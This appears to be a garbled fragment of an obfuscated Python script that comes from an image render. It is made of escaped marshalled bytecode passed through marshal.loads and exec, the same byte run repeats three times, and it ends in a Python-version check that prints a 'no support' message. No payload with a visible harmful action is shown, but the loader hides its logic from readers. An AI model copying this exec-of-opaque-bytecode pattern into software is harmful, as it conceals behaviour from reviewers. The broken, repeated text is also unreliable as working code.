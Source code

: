 )\x0cZ\x03fooZ\x03bar\xda\x04eval\xda\x07marshal\xda\x05loads\xda\tcopyright\xda\x03sys\xda\x07version\xda\x04exec\xda\x05printZ\x05feval\xda\x05split\xa9\x00r\x0e\x00\x00\x00r\x0e\x00\x00\x00\xda\x06string\xda\x08<module>\x02\x00\x00\x00s\x10\x00\x00\x00\x04\x01\x04\x01\x08\x01\x0e\x01\x08\x01\x08\x02\x1c\x01\x10\x02s\xd3\x00\x00\x00c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00@\x00\x00\x00s\x10\x00\x00\x00e\x00g\x00d\x00\xa2\x01\x83\x01\xa0\x01\xa1\x00S\x00)\x01)\x15\xe9#\x00\x00\x00\xe9 \x00\x00\x00\xe9n\x00\x00\x00\xe9o\x00\x00\x00r\x01\x00\x00\x00\xe9s\x00\x00\x00\xe9u\x00\x00\x00\xe9p\x00\x00\x00r\x06\x00\x00\x00r\x03\x00\x00\x00\xe9r\x00\x00\x00\xe9t\x00\x00\x00r\x01\x00\x00\x00\xe9f\x00\x00\x00r\x03\x00\x00\x00r\x07\x00\x00\x00r\x01\x00\x00\x00\xe9"\x00\x00\x00\xe9%\x00\x00\x00r\x04\x00\x00\x00r\n\x00\x00\x00)\x02\xda\x05bytes\xda\x06decode\xa9\x00r\x0e\x00\x00\x00r\x0e\x00\x00\x00\xda\x06string\xda\x08<module>\x01\x00\x00\x00\xf3\x00\x00\x00\x00\xfa\x01 )\x0cZ\x03fooZ\x03bar\xda\x04eval\xda\x07marshal\xda\x05loads\xda\tcopyright\xda\x03sys\xda\x07version\xda\x04exec\xda\x05printZ\x05feval\xda\x05split\xa9\x00r\x0e\x00\x00\x00r\x0e\x00\x00\x00\xda\x06string\xda\x08<module>\x02\x00\x00\x00s\x10\x00\x00\x00\x04\x01\x04\x01\x08\x01\x0e\x01\x08\x01\x08\x02\x1c\x01\x10\x02s\xd3\x00\x00\x00c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00@\x00\x00\x00s\x10\x00\x00\x00e\x00g\x00d\x00\xa2\x01\x83\x01\xa0\x01\xa1\x00S\x00)\x01)\x15\xe9#\x00\x00\x00\xe9 \x00\x00\x00\xe9n\x00\x00\x00\xe9o\x00\x00\x00r\x01\x00\x00\x00\xe9s\x00\x00\x00\xe9u\x00\x00\x00\xe9p\x00\x00\x00r\x06\x00\x00\x00r\x03\x00\x00\x00\xe9r\x00\x00\x00\xe9t\x00\x00\x00r\x01\x00\x00\x00\xe9f\x00\x00\x00r\x03\x00\x00\x00r\x07\x00\x00\x00r\x01\x00\x00\x00\xe9"\x00\x00\x00\xe9%\x00\x00\x00r\x04\x00\x00\x00r\n\x00\x00\x00)\x02\xda\x05bytes\xda\x06decode\xa9\x00r\x0e\x00\x00\x00r\x0e\x00\x00\x00\xda\x06string\xda\x08<module>\x01\x00\x00\x00\xf3\x00\x00\x00\x00\xfa\x01 )\x0cZ\x03fooZ\x03bar\xda\x04eval\xda\x07marshal\xda\x05loads\xda\tcopyright\xda\x03sys\xda\x07version\xda\x04exec\xda\x05printZ\x05feval\xda\x05split\xa9\x00r\x0e\x00\x00\x00r\x0e\x00\x00\x00\xda\x06string\xda\x08<module>\x02\x00\x00\x00s\x10\x00\x00\x00\x04\x01\x04\x01\x08\x01\x0e\x01\x08\x01\x08\x02\x1c\x01\x10\x02'))
else:
    print(f'# no support for "%s"' % sys.version.split(" ")[0])
